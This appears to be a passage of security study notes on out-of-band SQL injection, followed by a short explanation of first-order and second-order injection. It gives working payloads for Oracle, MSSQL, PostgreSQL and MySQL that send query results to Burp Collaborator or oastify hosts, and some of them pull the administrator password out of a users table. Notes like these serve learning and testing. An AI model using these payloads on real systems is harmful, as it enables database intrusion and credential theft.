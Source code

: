 `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Payload:

`TrackingId=SXiB94mO9w4AdDt8' UNION SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//zjmepd70qh5jap70t5mnwb1vqmwdkd82.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`


#### Data exfiltrate

| Database       | Technique                                                                                                                                                                         |
| -------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Oracle**     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'                                                           |  | (SELECT YOUR-QUERY-HERE) |  | '.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                       |
| **Microsoft**  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                    |
| **PostgreSQL** | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup ' |  | p                        |  | '.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |
| **MySQL**      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'`                                                         |


`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Payload:

```TrackingId=xUHDNyHYioHCjZXM' UNION SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT password FROM users WHERE username='administrator') ||'bq5qwpecxtcvh1ec0htz3n87xy3prrfg.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--```

## Type of ordered injection

First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.

Second-order SQL injection often occurs in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.
